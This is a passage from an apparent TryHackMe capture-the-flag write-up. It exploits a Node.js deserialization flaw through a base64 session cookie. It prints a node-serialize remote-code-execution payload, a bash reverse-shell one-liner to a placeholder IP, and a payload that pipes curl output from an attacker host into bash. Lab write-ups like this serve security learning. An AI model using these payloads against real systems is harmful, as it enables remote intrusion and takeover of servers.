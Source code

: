   ```
  
  HTTP/1.1 200 OK
  Set-Cookie: session=eyJlbWFpbCI6ImJpbWJvQHRlc3QuY29tIn0=; Max-Age=900000; HttpOnly, Secure
  Content-Type: text/html
  Date: Mon, 26 May 2025 18:12:39 GMT
  Connection: keep-alive
  Content-Length: 3559
  [SNIP!]
      <script>
      document.getElementById("signup").addEventListener("click", function() {
  	var date = new Date();
      	date.setTime(date.getTime()+(-1*24*60*60*1000));
      	var expires = "; expires="+date.toGMTString();
      	document.cookie = "session=foobar"+expires+"; path=/";
      	const Http = new XMLHttpRequest();
          console.log(location);
          const url=window.location.href+"?email="+document.getElementById("fname").value;
          Http.open("POST", url);
          Http.send();
  	setTimeout(function() {
  		window.location.reload();
  	}, 500);
      }); 
      </script>
  
  echo 'eyJlbWFpbCI6ImJpbWJvQHRlc3QuY29tIn0=' | base64 -d
  {"email":"bimbo@test.com"}
  ```
  
- This points to NodeJS deserialization vulnerability for RCE. Since I did `VulnNet: Node` room recently, I already knew how to exploit this one. You can find my writeup for `VulnNet: Node` [here](https://github.com/mauzware/THM-CTFs/blob/main/VulnNet%3A%20Node.md).

- Here's the syntax for payload. More details about vulnerability can be found [here](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/).

  ```
  {"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
  ```
  
- Before we make a paylod, create a reverse shell. You can use any reverse shell that you like, I used classic bash one-liner. In regards to payload, replace "rce" with "email" and command that we will execute, which will be `curl` followed by `bash`.

  ```
  cat shell.sh                                                       
  #!/bin/bash
  
  bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1
  
  {"email":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl http://[YOUR-THM-IP]:80/shell.sh | bash',function(error, stdout, stderr) { console.log(stdout) });\n }()"}
  ```
